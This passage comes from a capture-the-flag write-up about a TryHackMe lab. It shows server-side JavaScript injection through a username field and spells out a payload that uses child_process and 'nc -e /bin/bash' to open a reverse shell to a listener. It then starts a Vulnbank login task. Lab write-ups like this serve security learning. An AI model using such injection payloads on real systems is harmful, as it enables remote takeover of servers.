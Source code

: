 By putting #{1+1} on the username, we get an output of 2. Credit to this [write-up](https://pwning.owasp-juice.shop/appendix/solutions.html), this is abusing the lack of encapsulation of javascript. We are going to craft a reverse shell payload by entering the following.

```
#{global.process.mainModule.require('child_process').exec('nc -e /bin/bash 127.0.0.1 4444')}
```

Open up our Netcat listener and capture the reverse shell.

![nc](/assets/images/THM/2020-08-14-plathora/7.png)

That's it, this is how I exploit the page by listening to a reverse shell. The problem is, the web page on the THM is running as a docker. For your information, the above vulnerability has no effect on a docker. If you found a vulnerability on reading the flag file inside the docker, please let me know. Much appreciate.

![not working](/assets/images/THM/2020-08-14-plathora/8.png)

## Task 1-5: Vulnbank

For this task, you need to locate yourself on the login page.

```
http://<machine IP>:8091/vulnbank/online/login.php
```
